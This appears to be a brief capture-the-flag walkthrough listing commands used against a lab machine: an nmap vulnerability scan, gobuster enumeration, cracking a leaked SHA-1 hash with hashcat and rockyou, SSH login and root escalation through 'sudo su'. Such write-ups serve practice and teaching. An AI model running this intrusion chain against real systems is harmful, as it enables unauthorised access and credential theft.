 1. First I run 'nmap --script=vuln -sV <target IP>'

I get that there's a /secret directory.

2. Then, 'gobuster dir <target IP>/secret -x txt' 

Open <target IP>/secret/secret.txt in a web browser and get 

nyan:046385855FC9580393853D8E81F240B66FE9A7B8
After assuming different hash modes...

3. 'hashcat -a 0 -m 100 046385855FC9580393853D8E81F240B66FE9A7B8 /usr/share/wordlists/rockyou.txt' 

This gives the password

4. 'ssh nyan@<target IP>''

 enter the password given.
 
5. 'ls', 'cat user.txt', and 'sudo -l' 

We find that we can type 'sudo su' for privesc

6. 'cd /root', 'ls', and 'cat root.txt'

And...
# BOOM!
There's the password we need.
